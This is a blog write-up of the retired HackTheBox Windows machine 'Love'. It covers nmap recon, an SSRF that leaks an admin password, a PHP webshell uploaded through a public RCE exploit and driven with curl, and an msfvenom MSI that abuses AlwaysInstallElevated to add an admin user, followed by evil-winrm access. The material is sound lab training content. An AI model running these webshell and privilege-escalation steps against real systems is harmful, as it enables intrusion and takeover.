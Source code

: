 Title:HTB: Love
Date: 08-09-2021 17:55
category:security
tags:security, boot2root, HTB, windows, php, AlwaysInstallElevated
meta:security, boot2root, HTB, windows, php, AlwaysInstallElevated

<img class="align-left" src="/media/2021.08/love_card.png" alt="Love card" width="262">

This is a writeup about a retired HacktheBox machine:
[Love](https://www.hackthebox.com/home/machines/profile/344) published on
May 1 2021 by
[pwnmeow](https://www.hackthebox.com/home/users/profile/157669)
This box is classified as an easy machine. This box implies a SSRF, some php
file and an AlwaysInstallElevated privilege on a Windows box.

<!-- PELICAN_END_SUMMARY -->

# User

## Recon

We start with an nmap scan. As always with Windows box a lot of ports are open.
We note the few HTTP services (80, 443, 5000).

    :::text
    # Nmap 7.91 scan initiated Thu May 20 09:46:35 2021 as: nmap -sSV -p- -A -oN notes.md 10.129.143.132
    Nmap scan report for 10.129.143.132
    Host is up (0.012s latency).
    Not shown: 65517 closed ports
    PORT      STATE SERVICE      VERSION
    80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
    | http-cookie-flags:
    |   /:
    |     PHPSESSID:
    |_      httponly flag not set
    |_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
    |_http-title: Voting System using PHP
    135/tcp   open  msrpc        Microsoft Windows RPC
    139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
    443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
    |_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
    |_http-title: 403 Forbidden
    | ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
    | Not valid before: 2021-01-18T14:00:16
    |_Not valid after:  2022-01-18T14:00:16
    |_ssl-date: TLS randomness does not represent time
    | tls-alpn:
    |_  http/1.1
    445/tcp   open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
    3306/tcp  open  mysql?
    | fingerprint-strings:
    |   DNSStatusRequestTCP, SIPOptions:
    |_    Host '10.10.14.70' is not allowed to connect to this MariaDB server
    5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
    |_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
    |_http-title: 403 Forbidden
    5040/tcp  open  unknown
    5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    | ssl-cert: Subject: commonName=LOVE
    | Subject Alternative Name: DNS:LOVE, DNS:Love
    | Not valid before: 2021-04-11T14:39:19
    |_Not valid after:  2024-04-10T14:39:19
    |_ssl-date: 2021-05-20T14:11:47+00:00; +21m33s from scanner time.
    | tls-alpn:
    |_  http/1.1
    47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    49664/tcp open  msrpc        Microsoft Windows RPC
    49665/tcp open  msrpc        Microsoft Windows RPC
    49666/tcp open  msrpc        Microsoft Windows RPC
    49667/tcp open  msrpc        Microsoft Windows RPC
    49668/tcp open  msrpc        Microsoft Windows RPC
    49669/tcp open  msrpc        Microsoft Windows RPC
    49670/tcp open  msrpc        Microsoft Windows RPC
    <SNIP>

## Web

On the port 80 we have a login form for a PHP voting system.

On the port 443 we have a FileScanner with a demo. As pointed out by the `nmap` scan and the SSL
certificate we need to use another domain `staging.love.htb`

![love ssl certificate](/media/2021.08/love_01.png)

Here we can input an URL to get it "scanned". After a few trial with our files (and a simple python server)
scanned means echoed.

Looking back at our `nmap` scan we can see that we are forbidden to access the webpage on port 5000.
We use the scanner to display it. It contains the password for the voting system `@LoveIsInTheAir!!!!`.

![admin password for the voting system](/media/2021.08/love_02.png)

We connect to the voting system. There is a few vulnerabilities (one of them even unauthenticated Oo)
Using the [(unauthenticated) RCE exploit](https://www.exploit-db.com/exploits/49445) we can get a
webshell by uploading `/usr/share/webshells/php/simple-backdoor.php` as an image for a candidate (after
adding a position). We can then execute Windows command on the OS.

    :::text
    └─$ curl 'http://love.htb/images/simple-backdoor.php?cmd=whoami%20/all'
    <!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

    <pre>
    USER INFORMATION
    ----------------

    User Name   SID
    =========== =============================================
    love\phoebe S-1-5-21-2955427858-187959437-2037071653-1002


    GROUP INFORMATION
    -----------------

    Group Name                             Type             SID          Attributes
    ====================================== ================ ============ ==================================================
    Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
    BUILTIN\Remote Management Users        Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
    BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\INTERACTIVE               Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
    CONSOLE LOGON                          Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
    LOCAL                                  Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
    Mandatory Label\Medium Mandatory Level Label            S-1-16-8192


    PRIVILEGES INFORMATION
    ----------------------

    Privilege Name                Description                          State
    ============================= ==================================== ========
    SeShutdownPrivilege           Shut down the system                 Disabled
    SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
    SeUndockPrivilege             Remove computer from docking station Disabled
    SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
    SeTimeZonePrivilege           Change the time zone                 Disabled


We can grab the user flag on the way:

    :::text
    └─$ curl 'http://love.htb/images/simple-backdoor.php?cmd=type%20..\..\..\..\Users\Phoebe\Desktop\user.txt'
    <!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

    <pre>eb7553538ae21eec5e4d1d444beaf541
    </pre>


# Root

We use the image upload function to put [WinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) on the box
and we run it using our webshell. The output is quit huge (2344 lines).


    :::text
    └─$ curl 'http://love.htb/images/simple-backdoor.php?cmd=winPEASx64.exe' >> winpeas_res
    └─$ wc -l winpeas_res
    2344 winpeas_res

We see that the AlwaysInstallElevated registry keys are set to one both in HKLM
and HKCU.

    :::text
    [+] Checking AlwaysInstallElevated
    [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated
      AlwaysInstallElevated set to 1 in HKLM!
      AlwaysInstallElevated set to 1 in HKCU!

We use `msfvenom` to generate an msi file that will "install" a new admin user
with a know password.

    :::text
    └─$ #msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o alwe.msi

We then connect to the box using
[evil-winrm](https://github.com/Hackplayers/evil-winrm) and grab the root flag.

    :::text
    └─$ evil-winrm -i love.htb -u rottenadmin -p 'P@ssword123!'

    Evil-WinRM shell v2.4

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\rottenadmin\Documents> type ..\..\Administrator\Desktop\root.txt
    af2d13b1f523eed72cddf44b166c4601

# Wrapping up

Overall a nice box with a few rabbit hole (very OSCP like). I banged my head a
few time as I did not notice the port 5000 403. Also the CVE used to get the RCE
is completely unauthenticated so a simple Google search "php voting system
exploit" would have return the same exploit. Also the exploit date (May 7) seems to be
posterior to the box publication (May 1) which is odd and maybe not the intended
RCE way.

